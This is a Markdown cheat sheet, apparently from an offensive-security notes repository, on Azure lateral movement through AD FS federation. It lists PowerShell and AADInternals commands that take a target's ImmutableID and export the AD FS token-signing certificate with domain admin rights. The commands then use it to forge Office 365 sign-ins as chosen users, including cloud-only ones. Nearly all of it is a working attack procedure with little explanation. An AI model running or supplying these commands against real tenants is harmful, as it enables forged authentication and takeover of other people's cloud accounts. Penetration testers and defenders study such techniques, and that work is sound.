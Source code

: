 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Azure Lateral Movement

* Federation
	* On-Prem to Cloud
		* From any on-prem machine as a normal domain user, get the ImmutableID of the target user
			* `[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())`
		* On AD FS server (as administrator)
			* `Get-AdfsProperties | select identifier`
		* Check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
			* `Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri`
		* Note: When setting up the AD FS using Azure AD Connect, there is a difference between IssuerURI on ADFS server and Azure AD. Use the one from AzureAD
		* With DA privileges on-prem we can extract the ADFS token signing certificate from the ADFS server using AADInternals
			* `Export-AADIntADFSSigningCertificate`
		* Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified
			* `Open-AADIntOffice365Portal -ImmutableID ID-HERE -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose`
		* With DA prvileges on-prem, it is possible to create ImmutableID of cloud only users
			* Create a realistic ImmutableID
				* `[System.Convert]::ToBase64String((New-Guid).tobytearray())`
			* Using AADInternals, export the token signing certificate
				* `Export-AADIntADFSSigningCertificate`
			* Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified
				* `Open-AADIntOffice365Portal -ImmutableID ID-HERE -Issuer http://deffin.com/adfs/services/trust -PfxFileName c:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose`